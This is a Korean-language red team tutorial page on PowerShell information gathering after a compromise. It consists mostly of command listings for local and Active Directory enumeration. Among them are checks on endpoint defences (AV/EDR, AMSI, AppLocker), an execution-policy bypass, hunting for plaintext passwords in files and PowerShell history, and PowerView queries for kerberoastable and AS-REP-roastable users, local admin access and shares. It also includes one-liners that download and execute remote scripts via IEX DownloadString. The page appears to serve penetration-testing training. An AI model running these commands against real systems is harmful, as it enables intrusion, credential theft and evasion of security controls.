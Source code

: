 # 정보 수집 - 파워쉘

로컬 호스트 정보 수집 페이지에서도 잠깐 언급했지만, cmd 및 파워쉘을 통한 정보 수집은 레드팀 작전의 작전보안에 적합하지 않다.&#x20;

그러나 레드팀을 제외하고 모의해킹, 그리고 블루팀의 엔드포인트 감사/테스팅에서 파워쉘을 여전히 많이 쓰이고 있다. 따라서 아주 소수의, 고급 APT 공격 시뮬레이션을 하는 레드팀을 제외한다면 CMD 파워쉘을 통한 정보 수집은 아직도 많이 사용된다. 따라서 이 페이지에서는 파워쉘을 통한 로컬/도메인 정보 수집에 대해서 알아본다.&#x20;



### 로컬&#x20;

#### 기본&#x20;

* 유저, 그룹, 호스트이름, 네트워킹, 프로세스 리스 등의 간단한 기본 정보를 수집한다.&#x20;

```
# 유저 및 그룹 
whoami 
net user 
net users
net localgroups 
net group /domain 
net localgroup Administrators

# 프로세스 
ps 
Get-Process
tasklist.exe /V
wmic process get ProcessId,Description,ParentProcessId,ReadOperationCount,WriteOperationCount

# 호스트 이름 
hostname

# 네트워킹 - layer 2,3 
ipconfig /all 
route print
arp -a 

# 도메인 이름 
Get-WmiObject -Namespace root\cimv2 -Class Win32_ComputerSystem | Select Name, Domain
$env:USERDOMAIN

# OS 버전과 핫픽스 존재여부 
systeminfo 
Get-HotFix

# 파워쉘 세션 ID 확인. 0 = NT 서비스/시스템, 1++ = 유저 
(Get-Process -PID $pid).SessionID
```

#### 엔드포인트 보안&#x20;

* AV/EDR 솔루션, AMSI, .NET 버전 (4.8+ = .NET AMSI), Applocker, Credential Guard, 파워쉘 Constrained Language Mode, 파워쉘 version 2, 로컬 방화 등의 엔드포인트 보안과 관련된 정보를 수집한다.

```
# 방화벽 
Get-NetFirewallProfile | Select-Object -Property name,enabled,DefaultInboundAction,DefaultOutboundAction,LogFileName

# AV/EDR 솔루션 
Get-Process 
wmic process get ProcessId,Description,ParentProcessId,ReadOperationCount,WriteOperationCount

# AV/EDR 이 없다면 디펜더 체크 
get-mppreference | select DisableRealtimeMonitoring 

# AMSI - 활성화 되어 있을 때 
Invoke-Mimikatz 
This script contains malicious content and has been blocked by your antivirus software.

# AMSI - 비활성화 
Invoke-Mimikatz 
invoke-mimikatz : The term 'invoke-mimikatz' is not recognized as the name of a cmdlet, function, script file, or operable program.

# .NET Version 
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version

# Powershell CLM (Contrained Language Mode) 
$ExecutionContext.SessionState.LanguageMode

# Powershell Version 2
powershell.exe -v 2

# Credential Guard 
(Get-ComputerInfo).DeviceGuardSecurityServicesConfigured

# Applocker - Local, Default Domain policy 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Applocker - Local registry 
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\ -Recurse

# 파워쉘 ExecutionPolicy 확인 및 Bypass 로 설정 
Get-ExecutionPolicy -List
$env:PSExecutionPolicyPreference="bypass"

```

#### 간단 정보 수집&#x20;

```
# txt, xml, ini 파일안의 평문 비밀번호 
findstr /si password *.txt | *.xml | *.ini

# 파워쉘 히스토리 powershell history 
echo $env:userprofile 
cat %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

# 데브옵스 및 배포 파일 
c:\sysprep.ini
c:\sysprep\sysprep.xml 
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```



### 액티브 디렉토

* 파워쉘을 통한 도메인 정보 수집은 PowerView.ps1 와 같은 툴을 이용하거나 [MS-ActiveDirectory Module](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) 을 이용한다. MS AD 모듈의 경우 설치되어 있지 않은 호스트들도 많기 때문에 Powerview 등의 툴을 많이 사용하는 편이다.&#x20;
* Powerview 등의 파워쉘 기반의 도메인 정보 수집 툴을 이용하려면 [AMSI 우회](../defense-evasion/amsi-bypass.md)를 해야한다.&#x20;
* 다음은 Powerview 기반의 정보 수집 명령어들이다.

```
# AMSI 우회 
< AMSI 우회 페이지를 참고한다 > 

# PowerView 로드 - BCSecurity - 최신이지만 에러 존재 
IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1')

# PowerView 로드 - HarmJoy 의 원본 PowerView 
iex(New-Object net.webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1')

# 도메인  
Get-Domain
Get-DomainController -Domain <도메인>

# 도메인 신뢰/관계
Get-DomainTrust

# 포레스트
Get-Forest -Forest <포레스트이름>

# 도메인 유저 
Get-DomainUser | Select-Object samaccountname
Get-DomainUser | select-object samaccountname,description

# 커버로스팅 가능한 유저 
Get-DomainUser -SPN | Select-Object name,serviceprincipalname
Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName

# AS-Rep 가능한 유저 
Get-DomainUser -PreauthNotRequired | select-object name 

# 도메인 그룹 
Get-DomainGroup | Select-Object name

# 특정 그룹의 유저 
Get-DomainGroupMember -Identity "<그룹이름>" -Recurse | Select-Object -Property GroupName,MemberName | Format-Table

# 도메인 컴퓨터 
Get-DomainComputer -Domain <도메인> | Select-Object dnshostname
Get-DomainComputer -Domain <도메인> | Select-Object dnshostname | %{Test-Connection -count 1 -ComputerName $_.dnshostname} *>&1

# 도메인 GPO 
Get-DomainGPO | Select-Object displayname

# 잠재적 허니팟 (honeypot) 유저 
Get-DomainUser | select-object cn,pwdlastset,badpwdcount,logoncount

# 현 유저가 로컬 관리자 권한을 갖고 있는 호스트 
Find-LocalAdminAccess -Domain <도메인>

# 도메인 내 공유된 폴더 
Find-DomainShare -Domain <도메인>

# Unconstrained Delegation 호스트 
Get-DomainComputer -Unconstrained
```



